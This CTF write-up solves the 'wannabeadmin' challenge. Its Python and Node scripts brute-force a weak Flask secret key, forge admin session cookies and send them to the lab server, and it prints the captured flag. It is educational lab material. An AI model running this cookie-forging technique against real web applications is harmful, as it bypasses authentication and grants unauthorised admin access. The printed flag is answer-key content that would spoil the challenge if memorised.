


# wannabeadmin Challenge (medium)

## question 

I always wanted to be an Admin! Can You help my dreams become true?

url: http://challs1.taparctf.ir:9001

Format: Tapar{flag} Author: exploitio

Hint: there is something you can't see!



Attachments: 

- [main.py](./assets/wannabeadmin/main.py)

## answer

### step 1
after searching about `flask-session`, i figure out that inject `session` cookie with `{username: admin}` data.

but The main challenge is finding or guess `app.secret_key` value.

According to `main.py` file, secret key takes a random value:

```py
secret = choice(hexdigits) + choice(hexdigits)
app.secret_key = secret * 8
```

so, I change `main.py` and create `app.py` file:

```py
#!/usr/bin/env python
from flask import Flask, session, request, make_response

from string import hexdigits
from random import choice


app = Flask(__name__)
secret = choice(hexdigits) + choice(hexdigits)
app.secret_key = secret * 8

max_len = 22 * 8
secrets = []
index = 0
# generate all possible secret keys
while True:
    if len(secrets) >= max_len:
        break
    secret = choice(hexdigits) + choice(hexdigits)
    new_sec = secret * 8
    if new_sec not in secrets:
        secrets.append(new_sec)


@app.route('/set/')
def set():
    global index, secrets
    app.secret_key = secrets[index]
    session['username'] = 'admin'
    my_cookie = request.cookies.get('session')
    print('session: [{}][{}] => {}\n----------\n',
          index, app.secret_key, my_cookie)
    index += 1
    return 'ok'


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9001)

# call `/set/` api and store its cookie value
ff = open('secrets.txt', 'w')
llen = len(secrets)
for i in range(0, llen):
    with app.test_client() as c:
        rv = c.get('/set/')
        secret = rv.headers['Set-Cookie'].split(';')[0].split('=')[1]
        ff.write(secret+'\n')
        print(rv.headers['Set-Cookie'])
ff.close()

```

this code, generate all possible secret keys (but not really all possibilities!), then I create a `/set/` API, and in every call, change app secret key every time.

finally I should to simulate call this Api for 176 times and store generated cookies in a file!

to run this script, just need to follow below:

```bash

pip3 install Flask Flask-Session 
flask run 

```

### step 2

Now, I should to simulate call main url and inject a new cookie every time (read from a file generated by my `app.py`)

for this step, I create a js script named `requests.js`:

```js
const fs = require('fs');
const axios = require('axios');

async function main() {
    let secrets = (fs.readFileSync('./secrets.txt').toString()).split('\n');
    if (fs.existsSync('./responses.txt')) {
        fs.unlinkSync('./responses.txt');
    }

    for (let i = 0; i < secrets.length; i++) {
        console.log(`[${i}] testing secret: ${secrets[i]}`);
        let res = await axios.request({
            url: "http://challs1.taparctf.ir:9001/",
            method: "get",
            headers: {
                Cookie: `session=${secrets[i]};`
            }
        });
        fs.writeFileSync('./responses.txt', res.data);
        if (res.data.indexOf('Only an Admin can see the FLAG!') === -1) {
            console.log('SUCCESS!!!!!');
            break;
        }
    }

}

main();

```

this script read all generated cookies from `secrets.txt` file and create requests for cookies by `axios`.

if in response of each request not see `Only an Admin can see the FLAG!` string, means that we got flag:) (Although it may be a http error!)

for run this script:

```bash
npm i axios
node requests.js

```



In final, I found the flag: 

**`Tapar{I_4lw4ys_W4nR3d_T0_b3_4dmin_74vr74v298uhffr}`**

## author

madkne in 2023.05.07

website: http://taparctf.ir/